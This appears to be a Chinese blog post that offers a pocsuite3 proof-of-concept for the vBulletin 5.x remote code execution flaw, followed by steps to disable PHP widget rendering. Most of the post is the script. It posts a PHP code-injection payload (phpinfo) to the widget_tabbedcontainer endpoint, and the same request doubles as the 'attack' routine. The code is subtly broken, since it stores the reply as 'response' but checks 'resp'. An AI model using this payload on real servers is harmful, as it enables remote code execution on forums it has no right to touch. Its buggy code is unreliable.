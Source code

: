 ```yaml
---
title: vBulletin 5.x RCE 检测脚本
categories: [dev]
comments: true
---
```

#### 参考链接：利用vBulletin：“补丁失败的故事”
> https://blog.exploitee.rs/2020/exploiting-vbulletin-a-tale-of-patch-fail/


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pocsuite3.api import requests
from pocsuite3.api import register_poc
from pocsuite3.api import Output, POCBase, logger
from re import findall
import ssl

ssl._create_default_https_context = ssl._create_unverified_context

class TestPOC(POCBase):
    vulID = ''
    version = '5.x'
    author = ['南方有梦']
    vulDate = ''
    createDate = ''
    updateDate = ''
    references = ['']
    name = 'vBulletin 5.x RCE'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = ''
    desc = '''
    '''

    def _verify(self):
        result = {}
        target = '{u}/ajax/render/widget_tabbedcontainer_tab_panel'.format(u=self.url)
        data = "subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();"
        try:
            response = requests.post(url=target, data=data, verify=False)
            if resp.status_code == 200 and 'PHP API' in resp.text:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = target
        except Exception as e:
            #print(e)
            logger.error(f"connect target '{self.url} failed!'")
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register_poc(TestPOC)
```
### 漏洞检测脚本 Github地址：

> https://github.com/hackgov/article/blob/master/vBulletin%205.x%20RCE.py

> #### 基于POCsuite3框架运行


#### 修复建议
`此修补程序将禁用您论坛中的PHP小部件，并可能破坏某些功能，但在vBulletin发布补丁之前，将使您免受攻击。`

> 转到vBulletin管理员控制面板。
> 单击左侧菜单中的“设置”，然后单击下拉菜单中的“选项”。
> 选择“常规设置”，然后单击“编辑设置”
> 查找“禁用PHP，静态HTML和广告模块呈现”，设置为“是”，点击“保存”